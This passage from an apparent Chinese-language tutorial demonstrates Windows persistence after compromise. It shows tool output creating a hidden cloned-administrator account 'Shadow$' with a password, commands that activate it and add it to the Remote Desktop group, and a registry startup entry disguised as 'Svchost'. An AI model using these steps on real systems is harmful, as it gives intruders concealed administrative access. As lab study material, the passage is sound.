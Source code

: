 ```
[*] RDP is already enabled
[+] RDP Port: 3389
[*] ShadowUser Created Successfully
[+] CloneUser: Administrator
[+] Username: Shadow$
[+] Password: DwfsLBXP4X
```

![image-20220802204315091](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220802204315091.png)

我们通过目标机器的管理用户,以及`net user` 确认 一下.

![image-20220802205044529](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220802205044529.png)

![image-20220802204520619](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220802204520619.png)

可以看到在`管理其他用户`处并没有显示`shadow$用户`,并且使用 `net user` 也看不到用户 `shadow$` 的,但是使用 `net user shadow$`却是能够看到用户存在,但是此账户默认是没有激活的,所以我们还需要使用命令进行账户激活.

```
net user shadow$ /active:yes
```

并将用户添加到 `远程桌面组`:

```
net localgroup "remote desktop Users" shadow$ /add
```

远程桌面连接,发现可行!

![image-20220802205924354](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220802205924354.png)



**添加启动项**

这里我创建了一个名为 `Svchost` 的开机启动项,默认启动`C:\Windows\system32\calc.exe`.

![image-20220802210423008](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220802210423008.png)

通过cs的交互界面,我们看到他也就执行了一个`reg add `  的命令,回到机器,我们查看一下对应位置.

![image-20220802210629124](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220802210629124.png)

可以看到,的确创建成功.

![image-20220802210848222](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220802210848222.png)



其余功能大家可以自行操作探索,这里就不在演示了.

have fun!

# 参考
